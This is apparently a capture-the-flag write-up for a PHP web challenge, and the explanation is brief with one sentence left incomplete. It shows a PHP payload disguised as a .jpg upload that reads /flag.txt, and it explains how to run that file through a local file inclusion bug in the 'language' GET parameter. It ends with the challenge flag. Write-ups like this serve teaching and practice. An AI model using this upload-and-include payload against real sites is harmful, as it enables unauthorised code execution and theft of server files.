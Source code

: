 payload file with any name that bypass the validation (jpg and etc) like test.jpg with content

```php
<?php 
  $file = '/flag.txt'; 
  $content = file_get_contents($file); 
  echo $content; 
?>

```

then you need to go to `/logs/site_log.txt` because real filename will be changed after upload. 
Upload your file and go to `conspiracy` page, because there we can `include` that file (it will be executed)


```php
$language = $_GET['language'] ?? 'languages/english.php';
```

we can abuse this GET paramter with `/var/www/html/` + your filename from logs, so full url payload will be like


`flag{6558608db040d1c64358ad536a8e06c6}`
